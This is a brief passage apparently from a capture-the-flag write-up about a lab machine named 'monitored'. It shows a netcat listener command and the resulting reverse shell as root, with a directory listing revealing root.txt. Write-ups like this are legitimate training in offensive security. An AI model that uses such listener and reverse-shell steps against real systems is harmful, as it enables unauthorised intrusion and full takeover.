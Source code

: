 And boom i got a reverse shell as root

```shell
pl4int3xt@archlinux ~> nc -nlvp 9999
Connection from 10.10.11.248:59400
bash: cannot set terminal process group (26270): Inappropriate ioctl for device
bash: no job control in this shell
root@monitored:/root# ls
ls
root.txt
```

![img-description](7.png)